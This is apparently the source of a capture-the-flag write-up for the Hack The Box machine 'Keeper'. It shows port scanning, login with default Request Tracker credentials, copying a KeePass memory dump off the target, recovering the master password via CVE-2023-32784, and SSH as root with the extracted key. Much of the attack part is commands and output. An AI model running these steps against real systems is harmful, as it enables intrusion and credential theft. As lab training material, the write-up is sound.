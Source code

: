 ```yaml
---
title: HTB - Keeper
date: 2023-11-21
categories: [CTF Write Up, HTB]
tags: []
img_path: /assets/keeper/
published: true
---
```


![room_banner](keeper_banner.png)

## Overview

|:-:|:-:|
|Machine|[Keeper](https://app.hackthebox.com/machines/556)
|Rank|Easy|
|Time|3h19m|
|Focus|Default credentials, [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784)

## Information Gathering

```shell
# live host discovery
sudo nmap -PA -sn 10.10.11.227
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-21 16:26 GMT
Nmap scan report for 10.10.11.227
Host is up (0.024s latency).
Nmap done: 1 IP address (1 host up) scanned in 1.26 seconds
```

```shell
# scanning common ports
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 10.10.11.227
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-21 16:29 GMT
Nmap scan report for 10.10.11.227
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=11/21%OT=22%CT=1%CU=32880%PV=Y%DS=2%DC=I%G=Y%TM=655
OS:CDAF8%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=FC%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST
OS:11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=F
OS:E88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M
OS:53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.75 seconds
```

## Web Server Enumeration

```shell
whatweb http://10.10.11.227
http://10.10.11.227 [200 OK] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.227], nginx[1.18.0]
```

```shell
curl http://10.10.11.227
<html>
  <body>
    <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
  </body>
</html>
```

> Add `tickets.keeper.htb` to `/etc/hosts`.

<figure>
    <img src="hosts_file.png"
    alt="/etc/hosts file" >
</figure>

<figure>
    <img src="wappalyzer.png"
    alt="Wappalyzer report" >
</figure>

```shell
# banner grabbing
curl -IL http://$IP/
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 21 Nov 2023 16:42:35 GMT
Content-Type: text/html
Content-Length: 149
Last-Modified: Wed, 24 May 2023 14:04:44 GMT
Connection: keep-alive
ETag: "646e197c-95"
Accept-Ranges: bytes
```

<figure>
    <img src="tickets_home.png"
    alt="Tickets.keeper.htb homepage - Login form" >
</figure>

> RT 4.4.4 (out-of-date), latest 5.0.5, [release notes](https://docs.bestpractical.com/release-notes/rt/5.0.5) include 3 CVEs. Proved a rabbit hole!

<figure>
    <img src="default_creds_google.png"
    alt="Googling default credentials for Request tracker" >
</figure>

<figure>
    <img src="rt_logged_in.png"
    alt="Logged in with default credentials" >
</figure>

<figure>
    <img src="user_details.png"
    alt="Enumeration users on the website" >
</figure>

## Initial Foothold

```shell
ssh lnorgaard@$IP
The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

```shell
lnorgaard@keeper:~$ netstat -ltn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        7      0 127.0.0.1:9000          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp6       0      0 ::1:25                  :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
```

```shell
lnorgaard@keeper:~$ netstat -lt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        8      0 localhost:9000          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
tcp        0      0 localhost:smtp          0.0.0.0:*               LISTEN
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN
tcp6       0      0 localhost:smtp          [::]:*                  LISTEN
tcp6       0      0 [::]:http               [::]:*                  LISTEN
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN
```

```shell
lnorgaard@keeper:~$ ls -l
total 332820
-rwxr-x--- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
-rwxr-x--- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
-rw-r--r-- 1 root      root       87391651 Nov 21 19:18 RT30000.zip
-rw-r----- 1 root      lnorgaard        33 Nov 21 17:22 user.txt
```

> The DMP file is primarily associated with the MemoryDump or Minidump file format. It is used in Microsoft Windows operating system to store data that has been dumped from the memory space of the computer. Usually, DMP files are created when a file crashes or an error occurs.

> A KDBX file is a password database created by KeePass Password Safe, a free password manager for Windows. It stores an encrypted database of passwords that can be viewed only using a master password set by the user. KDBX files are used to securely store personal login credentials for Windows, email accounts, FTP sites, e-commerce sites, and other purposes.

<figure>
    <img src="nvd-cve.png"
    alt="CVE-2023-32784 description" >
</figure>

> [CVE-2023-32784 PoC](https://github.com/z-jxy/keepass_dump)

> Transferred `KeePassDumpFull.dmp` & `passcodes.kdbx` locally by opening a Python http.server from the target and using `wget` from my machine.

python3 keepass_dump.py -f ~/htb/keeper/KeePassDumpFull.dmp
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde

<figure>
    <img src="danish_google.png"
    alt="Searching danish-related words on Google" >
</figure>

```shell
sudo apt install keepass2
keepass2
```
<figure>
    <img src="keepass2.png"
    alt="Keepass2 application" >
</figure>

<figure>
    <img src="keepass2_1.png"
    alt="Opening file with the Keepass2 application" >
</figure>

> PuTTY's default format is `.ppk`: copy the contents on the note and copy it to a new file with `.ppk` file extension locally. Then, create a .pem key file using `puttygen`.

```shell
puttygen key.ppk -O private-openssh -o key.pem
chmod 400 key.pem
ls -l
total 247476
-rw-r--r-- 1 kali kali 253395188 May 24 11:51 KeePassDumpFull.dmp
-r-------- 1 kali kali      1675 Nov 21 19:46 key.pem
-rw-r--r-- 1 root root      1459 Nov 21 19:44 key.ppk
-rw-r--r-- 1 kali kali      3630 May 24 11:51 passcodes.kdbx
```

## Privilege Escalation

```shell
ssh -i key.pem root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# ls
root.txt  RT30000.zip  SQL
```

<figure>
    <img src="keeper_pwned.png"
    alt="Keeper machine pwned" >
</figure>

